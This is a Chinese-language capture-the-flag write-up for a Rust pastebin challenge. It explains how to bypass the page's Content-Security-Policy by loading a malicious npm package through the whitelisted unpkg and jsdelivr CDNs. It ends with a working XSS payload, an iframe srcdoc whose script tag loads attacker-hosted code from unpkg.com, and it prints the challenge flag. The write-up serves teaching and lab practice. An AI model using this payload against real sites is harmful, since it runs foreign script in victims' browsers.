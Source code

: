 # paste_bin

## Description

```
一个由 Rust 构建的、内存安全的、零成本抽象的、RAII 的、无 GC 的、无运行时的、函数式的、并发的、异步的、高性能的、可靠的、具有生产力的 Pastebin

R 门 🙏

**注意: 在与远程环境 (bot) 交互之前, 请确保你的 payload 能在本地环境打通**
```

Flag: `0xGame{easy_csp_bypass_in_rust-e928e182b4fd}`

Hints

```
1, 关注前端的 HTML, JS 和后端的 src/bot.rs 即可, 其它代码不重要
2. Content-Security-Policy 是什么?
3. 尝试将 payload 塞到 iframe 标签的 srcdoc 属性里面
4. jsdelivr 和 unpkg 是什么东西?
```

## Writeup

考点: CSP 绕过

[https://aszx87410.github.io/beyond-xss/ch2/xss-defense-csp/](https://aszx87410.github.io/beyond-xss/ch2/xss-defense-csp/)

[https://aszx87410.github.io/beyond-xss/ch1/javascript-protocol/](https://aszx87410.github.io/beyond-xss/ch1/javascript-protocol/)

/view 页面的 CSP 如下

```
base-uri 'none'; style-src 'unsafe-inline'; script-src 'self' 'sha256-mDsn/yxO0Kbxaggx7bFdeBmrC22U6cePGEUeeSwO+n0=' cdn.tailwindcss.com unpkg.com cdn.jsdelivr.net;
```

可以看到 script-src 除了 self 和 sha256 hash 以外, 还有 cdn.tailwindcss.com, unpkg.com 和 cdn.jsdelivr.net

self 表示仅允许加载同源网站 (当前网站) 下的 js 文件, 例如 /static/ 目录里的 index.js, view.js, report.js

sha256 hash 表示允许加载某个 js, 该 js 的 sha256 base64 为 `mDsn/yxO0Kbxaggx7bFdeBmrC22U6cePGEUeeSwO+n0=` (为了加载 tailwind css 的 js 脚本, 对于解题来说不重要)

剩余的 cdn.tailwindcss.com, unpkg.com 和 cdn.jsdelivr.net 表示允许加载这三个网站下的 js 文件

这道题的思路是后面两个: jsdelivr 和 unpkg, 这两个东西都是 CDN 服务, 即开发者发布的 npm 包都可以通过这两个 CDN 加载

我们只需要在 [https://www.npmjs.com/](https://www.npmjs.com/) 注册账号, 然后上传一个 npm 包, 包内包含恶意的 js 文件, 最后通过 jsdelivr 或 unpkg 加载即可

payload

```html
<iframe srcdoc="<script src='https://unpkg.com/my-package-x1r0z@1.1.0/exp.js'></script>"></iframe>
```